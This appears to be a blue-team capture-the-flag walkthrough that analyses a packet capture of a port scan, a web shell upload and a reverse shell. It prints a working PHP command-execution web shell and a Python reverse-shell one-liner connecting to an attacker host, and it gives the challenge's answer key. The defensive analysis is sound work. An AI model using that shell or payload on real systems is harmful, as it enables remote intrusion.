










# BTLO Walkthrough: Network Analysis – Web Shell

**Platform:** [BlueTeamLabs Online](https://blueteamlabs.online/home/challenge/network-analysis-web-shell-d4d3a2821b)
**Category:** Network Analysis / Wireshark
**Difficulty:** Easy
**Tools:** Wireshark, TCPDump, TShark

## Scenario

The SOC received a SIEM alert for **"Local to Local Port Scanning"** — an internal host began scanning another internal system. The provided `BTLOPortScan.pcap` capture needs to be analyzed to reconstruct the full attack chain: from initial reconnaissance, through web shell upload, to command execution and reverse shell access.

This writeup walks through the investigation question by question, with the exact Wireshark filters and views used to pull each answer out of the capture.

---

## 1. IP responsible for the port scan

**Filter/view used:** `Statistics > Conversations > TCP tab`, sorted by **Port B**

Opening the Conversations window and sorting the TCP tab by destination port immediately exposes the pattern: one host is talking to a single destination across a long, sequential run of ports, each with a tiny 2-packet, ~118-byte exchange — the signature of a scan rather than real traffic.



**Answer: `10.251.96.4`** is the source, scanning `10.251.96.5`.

## 2. Port range scanned

Scrolling down the same sorted Conversations view, the sequential port entries continue cleanly from port 1 all the way through to port 1024, at which point the traffic pattern changes (larger, sustained conversations begin — the actual application traffic).



**Answer: `1–1024`**

## 3. Type of port scan

**Filter used:** `ip.src == 10.251.96.4 && tcp.flags.syn == 1`

Knowing the scanning host, the next step is filtering on its traffic and inspecting the TCP flags for each attempted connection. Every probe from `10.251.96.4` is a lone `SYN` packet — there's no completed three-way handshake (no `SYN, ACK` followed by a full `ACK` from the scanning host) and no `RST` pattern typical of some other scan types. Each destination port gets exactly one SYN and nothing more from the source side.

**Answer: TCP SYN scan** (a "half-open" scan — never completes the handshake, which is what makes it stealthier and faster than a full TCP connect scan)

## 4. Two additional recon tools used

**Filter used:** `ip.dst == 10.251.96.5 && http.user_agent`

Beyond the SYN scan, the attacker also ran two application-layer recon tools against the discovered web service. Filtering for HTTP requests carrying a `User-Agent` header and scrolling through surfaces a long run of requests for common web paths (`/_swf`, `/_temp`, `/_vti_bin/...`, etc.) — classic directory/file brute-forcing. Inspecting one of these packets confirms the tool via its User-Agent string.



**Tool 1: Gobuster 3.0.1**

Continuing past the Gobuster traffic, a separate set of `POST` requests appears with SQL-injection-style payloads in the body. Inspecting one of these confirms the second tool by its User-Agent.



**Tool 2: sqlmap 1.4.7**

**Answer: Gobuster 3.0.1 and sqlmap 1.4.7**

## 5. PHP file used to upload the web shell

**Filter used:** `http.request.method == "GET"` (scrolled to the point where the attacker's browser traffic begins, after recon)

This question asks for the *legitimate* application file the attacker abused to deliver the malicious upload — not the shell itself. Filtering on GET requests and moving past the automated scanner noise, the attacker's actual browser session shows a request for `/editprofile.php` immediately before the malicious POST.



Following that same TCP stream confirms the `Referer` header on the subsequent upload POST also points back to `editprofile.php`, tying the two together as the same user flow:



**Answer: `editprofile.php`** — a legitimate profile-editing page with a file upload feature that the attacker abused to deliver the web shell.

## 6. Name of the web shell uploaded

**Filter used:** `tcp.stream eq <upload.php stream>` → **Follow → HTTP Stream**

Following the TCP stream of the `/upload.php` `POST` request reveals the full multipart form body, including the `Content-Disposition` header for the uploaded file:

```
Content-Disposition: form-data; name="fileToUpload"; filename="dbfunctions.php"
```



The server response even confirms it: *"The file dbfunctions.php has been uploaded."*

**Answer: `dbfunctions.php`**

## 7. Parameter used for command execution

Still inside the same followed stream, the raw PHP source of the uploaded shell is visible in the request body:

```php
<?php
if(isset($_REQUEST['cmd'])){
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
    die;
}
?>
```



The shell takes whatever value is passed in the `cmd` GET/POST parameter and hands it straight to `system()` — no sanitization, no allow-list. Textbook unrestricted-upload-to-RCE.

**Answer: `cmd`**

## 8. First command executed by the attacker

**Filter used:** `http.request.method == "GET"`, following the requests to the now-uploaded `/uploads/dbfunctions.php`

Once the shell is live at `/uploads/dbfunctions.php`, the attacker immediately calls it with the `cmd` parameter to confirm code execution:

```
GET /uploads/dbfunctions.php?cmd=id HTTP/1.1
```



A follow-up `cmd=whoami` request appears right after — standard "confirm I have execution, confirm who I am" behavior — but `id` is the first command sent.

**Answer: `id`**

## 9. Type of shell connection obtained

A later request to the same shell shows a much longer, URL-encoded `cmd` payload. Decoding it gives:

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.251.96.4",4422));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```



This is a classic Python reverse shell one-liner: the compromised web server (`10.251.96.5`) opens a socket **outbound** back to the attacker's listener at `10.251.96.4`, then rebinds stdin/stdout/stderr to that socket before spawning an interactive `/bin/sh`. Because the connection is initiated *from* the victim *to* the attacker (rather than the attacker connecting in), this is a **reverse shell**, not a bind shell.

**Answer: Reverse shell**

## 10. Port used for the shell connection

Visible directly in the same decoded payload above — the socket connects to `("10.251.96.4", 4422)`.

**Answer: `4422`**

---

## Attack Chain Summary

| Stage | Activity | Detail |
|---|---|---|
| 1. Discovery | TCP SYN scan | `10.251.96.4` → `10.251.96.5`, ports 1–1024 |
| 2. Recon | Directory brute-force | Gobuster 3.0.1 |
| 3. Recon | SQL injection testing | sqlmap 1.4.7 |
| 4. Initial Access | Malicious file upload | Via `editprofile.php`'s upload feature |
| 5. Persistence | Web shell dropped | `dbfunctions.php`, executes via `cmd` parameter |
| 6. Execution | Command validation | `id`, then `whoami` |
| 7. Escalation | Reverse shell | Python one-liner → `10.251.96.4:4422`, spawns `/bin/sh` |

## Answer Key

| # | Question | Answer |
|---|---|---|
| 1 | IP conducting the port scan | `10.251.96.4` |
| 2 | Port range scanned | `1–1024` |
| 3 | Type of port scan | TCP SYN scan |
| 4 | Two additional recon tools | Gobuster 3.0.1, sqlmap 1.4.7 |
| 5 | PHP file used to upload the shell | `editprofile.php` |
| 6 | Web shell filename | `dbfunctions.php` |
| 7 | Command execution parameter | `cmd` |
| 8 | First command executed | `id` |
| 9 | Type of shell connection | Reverse shell |
| 10 | Shell connection port | `4422` |

## Key Takeaways

- **Sequential, low-byte connections to a single host on incrementing ports** is one of the clearest signals in `Statistics > Conversations` — sorting by destination port turns a wall of packets into an obvious visual pattern in seconds.
- **A completed handshake matters for scan classification.** Seeing only `SYN` with no follow-up `ACK` from the source is what separates a SYN (half-open) scan from a full TCP connect scan in the capture.
- **User-Agent headers are free attribution.** Automated tools rarely bother to spoof their default UA strings, which makes `http.user_agent` filtering one of the fastest ways to fingerprint recon tooling in a pcap.
- **Unrestricted file upload is still a top-tier vulnerability.** A profile picture/document upload feature with no extension allow-list or content-type validation is all it took to drop an RCE-capable web shell here.
- **Reverse shells beat bind shells for attackers on segmented networks.** Initiating the connection *outbound* from the victim sidesteps inbound firewall rules that would block an attacker connecting directly into the compromised host — worth remembering when reviewing egress filtering, not just ingress.

---

*Writeup by [Nabin Tiwari](https://tiwarinabin.com.np) — [GitHub](https://github.com/nabin6179)*
